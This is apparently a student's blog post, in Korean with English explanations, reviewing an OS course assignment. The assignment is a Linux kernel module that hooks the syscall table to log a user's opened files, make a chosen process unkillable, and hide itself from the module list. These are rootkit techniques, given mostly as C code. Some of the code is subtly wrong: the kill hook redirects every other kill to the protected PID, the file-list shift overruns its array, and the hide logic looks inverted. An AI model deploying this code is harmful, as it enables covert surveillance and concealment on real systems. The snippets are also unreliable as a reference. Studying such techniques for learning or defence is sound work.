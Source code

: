 ```yaml
---
layout: post
title: "운영체제 - LKM"
tags: [OS, 공부]
comments: true
---
```


> Linux Kernel Module  

### 운영체제 System Programming  
2019-1 학기 가장 힘들었던 수업은 단연컨대 운영체제였다. 단순히 용어가 어렵고 개념이 너무 깊어서 뿐만 아니라 네 번에 걸친 system programming 과제가 잠을 못 자게 했다. 그래도 버티고 버텨낸 끝에 학기를 돌아보니 커널 레벨에서 코딩도 해보고, 생전 처음 들어본 데드락도 잡아보고, 소켓 프로그래밍도 해보는 진귀한 경험이었다. 앞으로 네 번의 포스팅에서 그것들을 다시 복습하며 정리하려 한다. (이미 기억이 많이 휘발돼서 상세하게 설명하지 못할 수도 있지만..) 운영체제 관련 포스팅은 대부분 영어로 작성하는 것이 편할 듯 하다. 용어가 한국어로는 너무 어색하고 학기 중에 리포트도 영어로 써서 설명이 익숙하기 때문이다.

첫번째 주제는 Linux Kernel Module 이다.  

### What is LKM?  
Linux Kernel Modules are pieces of code, or suit of functions that can be loaded and unloaded into the kernel upon demand. The point which distinguish LKM from normal program such as written with C language is that it can be loaded to kernel space in runtime.  

### Requirements  
* Log the names of files that a user has accessed  
* Prevent a kill to a specified process  
* Hide the dogdoor module from the module list  

### 1. tracking user-accessed files  
when user open certain file, original sys open function is called. By modifying it, (actually creating my sys open function and change the system vector) tracking user-accessed files are able.  
~~~c
asmlinkage int (*orig_sys_open)(const char __user * filename, int flags, umode_t mode) ; 

asmlinkage int openhook_sys_open(const char __user * filename, int flags, umode_t mode)
{
	char fname[256] ;

	copy_from_user(fname, filename, 256) ;
	// get user uid 
	unsigned int  uid = get_current_user() -> uid.val;
	int i = 0;
	if (uid == userid) {
		// track up to ten files
		if (fcnt >= 10) {
			for(i = 0; i < 10; i++) strcpy(fnames[i], fnames[i+1]);
			--fcnt;
		}
		strcpy(fnames[fcnt], fname);
		++fcnt;	
	}
	
	return orig_sys_open(filename, flags, mode) ;
}
~~~
~~~c
sctable[__NR_open] = openhook_sys_open ;
~~~  

### 2. immortal process  
To prevent kill() system call, system vector must be changed. Thus, sys kill should be hijacked.  

~~~c
asmlinkage long (*orig_sys_kill)(pid_t pid, int sig) ;  

asmlinkage long openhook_sys_kill(pid_t pid, int sig)  
{  
	if (in_pid == pid) return -1 ;  
	return orig_sys_kill(in_pid, sig) ;  
}  
~~~
~~~c
orig_sys_kill = sctable[__NR_kill] ;  
~~~
By changing the system vector, intended system call replaces the original one. As the code above explains, new sys kill function is quite simple. It checks the matching pid of process and just stops the system call. If not, call the original sys kill function so that the process can be propely terminated.

### 3. invisible module  
The type of THIS_MODULE->list is ‘struct list_head’. THIS_MODULE->list is doubly circular linked list.
From the hint that it’s doubly linked list, module can be hidden by two ways  

1. using list_del() and list_add() functions which is included in linux/list.h header file.  
~~~c
static void hide(void) {
	prev = THIS_MODULE->list.prev;
	list_del(&THIS_MODULE->list);
}
~~~
~~~c
static void show(void) {
	list_add(&THIS_MODULE->list, prev);
}
~~~  

2. adjusting the links : pre, next, and THIS_MODULE->list.  
~~~c
if (is_hide) {
	(&THIS_MODULE->list)->prev->next = &THIS_MODULE->list;
	(&THIS_MODULE->list)->next->prev = &THIS_MODULE->list;
}
else {
	(&THIS_MODULE->list)->prev->next = (&THIS_MODULE->list)->next;
	(&THIS_MODULE->list)->next->prev = (&THIS_MODULE->list)->prev;
}
~~~

### 4. demo video
[LKM demo](https://www.youtube.com/watch?v=L4Jp-GhrlT4)


